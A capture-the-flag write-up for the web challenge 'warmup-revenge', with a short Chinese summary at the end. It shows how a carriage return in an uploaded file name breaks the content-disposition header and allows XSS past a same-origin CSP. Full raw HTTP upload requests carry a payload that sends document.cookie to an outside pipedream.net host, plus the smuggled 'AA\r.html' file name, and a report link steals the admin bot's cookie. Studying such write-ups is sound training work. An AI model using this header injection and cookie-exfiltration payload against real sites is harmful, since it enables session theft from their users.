

## warmup-revenge

There are hidden files that are not shown on the website navbar like `download.php` which will help download files uploaded on the board when writing articles and `report.php` which will report a link to the admin bot to visit. This is the code for `download.php`:

```php
<?php
	include('./config.php');
	ob_end_clean();

	if(!trim($_GET['idx'])) die('Not Found');
	
	$query = array(
		'idx' => $_GET['idx']
	);

	$file = fetch_row('board', $query);
	if(!$file) die('Not Found');

	$filepath = $file['file_path'];
	$original = $file['file_name'];

	if(preg_match("/msie/i", $_SERVER['HTTP_USER_AGENT']) && preg_match("/5\.5/", $_SERVER['HTTP_USER_AGENT'])) {
	    header("content-length: ".filesize($filepath));
	    header("content-disposition: attachment; filename=\"$original\"");
	    header("content-transfer-encoding: binary");
	} else if (preg_match("/Firefox/i", $_SERVER['HTTP_USER_AGENT'])){
	    header("content-length: ".filesize($filepath));
	    header("content-disposition: attachment; filename=\"".basename($file['file_name'])."\"");
	    header("content-description: php generated data");
	} else {
	    header("content-length: ".filesize($filepath));
	    header("content-disposition: attachment; filename=\"$original\"");
	    header("content-description: php generated data");
	}
	header("pragma: no-cache");
	header("expires: 0");
	flush();

	$fp = fopen($filepath, 'rb');

	$download_rate = 10;

	while(!feof($fp)) {
	    print fread($fp, round($download_rate * 1024));
	    flush();
	    usleep(1000);
	}
	fclose ($fp);
	flush();	
?>
```

First thing to note is that we have an IDOR that let us access to any file to download having it’s ID and some kind of CRLF that would let us overwrite the `content-disposition` header making the response an inline page with the content of the file to download instead of downloading the file and not showing it’s content on the page making XSS possible.

```php
header("content-disposition: attachment; filename=\"$original\"");
```

We could overwrite the header if we include a carriage return `\r` and some characters after it like `asdf\rjunk.html`

The `board.php` is letting us upload files as attachment in the article and it’s taking the filename as it is making CRLF possible:

```php
$insert['file_name'] = $_FILES['file']['name'];
```

We also have a CSP

```http
Content-Security-Policy: default-src 'self'; style-src 'self'
```

This CSP would let us include scripts from same domain a simple bypass would be to upload first a file containing the javascript code to execute then another file to include that js code from the `download.php` page.

So first request would be:

```http
POST /board.php?p=write HTTP/1.1
Host: 58.225.56.195
Content-Length: 681
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://58.225.56.195
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydFZmSiashN04RJ1C
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://58.225.56.195/board.php?p=write
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=23c454a3f075dc9dc737e6fe71a98644
Connection: close

------WebKitFormBoundarydFZmSiashN04RJ1C
Content-Disposition: form-data; name="title"

testy
------WebKitFormBoundarydFZmSiashN04RJ1C
Content-Disposition: form-data; name="content"

asdf
------WebKitFormBoundarydFZmSiashN04RJ1C
Content-Disposition: form-data; name="level"

1
------WebKitFormBoundarydFZmSiashN04RJ1C
Content-Disposition: form-data; name="file"; filename="myFile.html"
Content-Type: text/html

document.location="https://enwau6gu4zv3.x.pipedream.net/?x=".concat(encodeURIComponent(document.cookie));
------WebKitFormBoundarydFZmSiashN04RJ1C
Content-Disposition: form-data; name="password"

benjeddou
------WebKitFormBoundarydFZmSiashN04RJ1C--
```

We could get the uploaded file from: http://58.225.56.195/download.php?idx=975

Now we upload the second file with the return carriage in its name to load the first file as a script. \r is replaced with the carriage return in the below request because doing url encode didn’t work correctly so I needed to change hex of request in burpsuite to inject the carriage return.



```http
POST /board.php?p=write HTTP/1.1
Host: 58.225.56.195
Content-Length: 681
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://58.225.56.195
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydFZmSiashN04RJ1C
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://58.225.56.195/board.php?p=write
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=23c454a3f075dc9dc737e6fe71a98644
Connection: close

------WebKitFormBoundarydFZmSiashN04RJ1C
Content-Disposition: form-data; name="title"

testy
------WebKitFormBoundarydFZmSiashN04RJ1C
Content-Disposition: form-data; name="content"

asdf
------WebKitFormBoundarydFZmSiashN04RJ1C
Content-Disposition: form-data; name="level"

1
------WebKitFormBoundarydFZmSiashN04RJ1C
Content-Disposition: form-data; name="file"; filename="AA\r.html"
Content-Type: text/html

<script src="/download.php?idx=975"></script>
------WebKitFormBoundarydFZmSiashN04RJ1C
Content-Disposition: form-data; name="password"

benjeddou
------WebKitFormBoundarydFZmSiashN04RJ1C--
```

The above uploaded file coulod be accessed from: http://58.225.56.195/download.php?idx=976
Reporting the final file to admin will get us the flag using the following link: http://58.225.56.195/report.php?path=download.php&idx=976


## 总结

本题主要的考点就是通过CSRL来改变`content-disposition`

通过文件名加入`\r`，使页面不是直接下载附件，而是以内联的形式呈现在网页上，使得XSS成为可能

